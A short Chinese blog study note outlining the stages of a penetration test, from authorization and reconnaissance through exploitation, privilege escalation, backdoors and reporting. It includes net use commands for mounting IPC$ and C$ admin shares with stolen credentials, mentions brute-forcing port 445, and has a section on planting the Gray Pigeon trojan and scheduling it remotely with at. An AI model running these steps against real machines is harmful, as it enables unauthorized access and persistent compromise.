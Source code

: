 ```yaml
---
category: study-tech
title: 渗透测试基本流程
date: 2023-05-01
excerpt: Web安全、网络安全、笔记
tags:
  - 笔记
  - 网络安全
  - Web安全
---
```


# 渗透测试基本流程

# 0. 授权

# 1. 信息收集

nslookup

whois

# 2. 扫描漏洞

namp = ip 范围  端口 80 （IIS，apache，什么网站）

**scanport扫描445端口**

## 高级扫描：

如IIS漏洞2003-IIS6.0  2008IIS7.0   扫描网站漏洞（）

# 3. 漏洞利用

# 4. 提权（shell环境、桌面环境、最高权限）

# 5. 留后门

# 6. 渗透测试报告

### 手工测试端口号开放：

### telnet IP地址  测试端口

### 445漏洞利用之 IPC$:

net use f:\\10.1.1.1\share  密码 /user:用户名

net use f:\\10.1.1.1\c$  密码 /user:用户名

```cpp
**net use  \\10.1.1.1\ipc$  密码 /user:用户名**
```

### 暴力破解系统密码之445

![](https://raw.githubusercontent.com/yy0691/img-bed/main/Net_Safe_Notion/Untitled%2067.png)

## 制作木马

```cpp
//利用灰鸽子软件
copy  //植入木马  
time  //查看时间  
net time //查看对方时间

at \\10.1.1.1 12:18 "c:\windows\system\xx.exe"  //设置定时任务
```